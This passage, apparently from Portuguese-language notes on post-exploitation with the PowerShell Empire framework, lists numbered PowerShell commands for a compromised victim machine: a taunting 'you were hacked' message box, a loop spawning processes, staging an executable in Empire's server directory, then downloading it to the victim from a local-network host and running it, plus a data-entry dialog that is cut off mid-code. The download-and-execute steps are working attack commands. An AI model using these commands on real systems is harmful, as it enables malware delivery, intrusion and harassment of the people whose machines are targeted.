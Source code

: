 7. zoando o usuário
```shell
Add-Type -AssemblyName System.Windows.Forms
[System.Windows.Forms.MessageBox]::Show("Perdeu seu otario !!! voce foi invadido e violado com sucesso !!!!!!!!!")
```

8. abrindo vários processos
```shell
for ($i = 1; $i -le 10; $i++) {
    Start-Process "calc.exe"
}
```

9. Download de virus

-   Copia o programa para onde o servidor do python esta ativo

```shell
sudo cp programa.exe /usr/share/powershell-empire/empire/server/data/module_source/management/
```

- Faça o download do virus na máquina da vítima

```shell
Invoke-WebRequest -Uri "http://192.168.0.102/programa.exe" -OutFile "programa.exe"
```

- agora execute !

```shell
Start-Process ".\programa.exe"
```


10. janela mais elaborada

```shell
Add-Type -AssemblyName System.Windows.Forms

$form = New-Object Windows.Forms.Form
$form.Text = "Entrada de Dados"
$form.Size = New-Object Drawing.Size(300,200)

$label = New-Object Windows.Forms.Label
$label.Text = "Digite algo:"
$label.Location = New-Object Drawing.Point(10,20)
$form.Controls.Add($label)

$textBox = New-Object Windows.Forms.TextBox
$textBox.Location = New-Object Drawing.Point(10,50)
$textBox.Size = New-Object Drawing.Size(260,20)
$form.Controls.Add($textBox)

$okButton = New-Object Windows.Forms.Button
$okButton.Text = "OK"
$okButton.Location = New-Object Drawing.Point(80,100)
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)

$cancelButton = New-Object Windows.Forms.Button
$cancelButton.Text = "Cancel"
$cancelButton.Location = New-Object Drawing.Point(160,100)
$cancelButton.DialogResult = [System.Windows.Forms.DialogResult]::Cancel
$form.CancelButton = $cancelButton
$form.Controls.Add($cancelButton)

$result = $form.ShowDialog()
if ($result -eq [System.Windows.Forms.DialogResult]::OK) {
    $userInput = $textBox.Text
```
